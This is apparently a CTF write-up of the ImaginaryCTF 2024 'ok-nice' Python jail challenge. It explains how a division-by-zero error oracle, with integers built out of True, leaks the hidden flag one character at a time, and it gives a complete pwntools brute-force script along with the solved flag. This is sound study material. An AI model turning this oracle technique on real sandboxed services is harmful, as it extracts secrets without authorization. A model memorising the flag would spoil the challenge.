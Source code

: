 ```yaml
---
layout: post
title:  "ok nice - ImaginaryCTF 2024"
date:   2024-07-21 00:00:00 -0400
---
```


https://ctftime.org/event/2396

# ok-nice (misc)

python jail

## Solution

Very limited range of options, nothing gets printed other than
`ok-nice` or `error`.

So the idea is to use the error as an oracle and brute force every char.

The main thing we are looking for is how to generate integers, so we can both index
flag and compare it to the result of ord.

Both `flag[True]` or `flag[False]` work.

True and False also work for generating integers:
```python
(True + True) = 2
```

So now we can both index and compare two chars, something like:
```python
ord(flag[True]) - (True+True) # checks if flag[1] == '\x02'
```

Now we just need to throw an error whenever they match
```python
True / (ord(flag[True]) - (True+True)) # division by zero when they match
```

Then just loop through every idx and every char.

```python
#!/usr/bin/env python3

from pwn import *

p = remote("ok-nice.chal.imaginaryctf.org", 1337)

def guess(char):
    n = ord(char)
    ret = ""
    for _ in range(n):
        ret = ret + "True+"
    ret = ret[:-1]
    return ret

def get_idx(n):
    ret = ""
    for _ in range(n+1):
        ret = ret + "True+"
    ret = ret[:-1]
    return ret

def build_payload(guess, idx):
    return f"ord(flag[True])/(({guess})-ord(flag[{idx}]))"

import string, time

chars = string.printable

flag = ""
for i in range(0, 100):
    idx = get_idx(i)
    for char in chars:
        payload = build_payload(guess(char), idx)
        p.sendlineafter("Enter input: ", payload)
        time.sleep(0.100)
        out = p.recvline()
        if "error" in out.decode():
            flag = flag + char
            print(f"DEBUGPRINT[18]: go.py:45: flag={flag}")

p.interactive()
```

## Flag
`ictf{0k_n1c3_7f4d3e5a6b}`

shafouz 2024/07/21
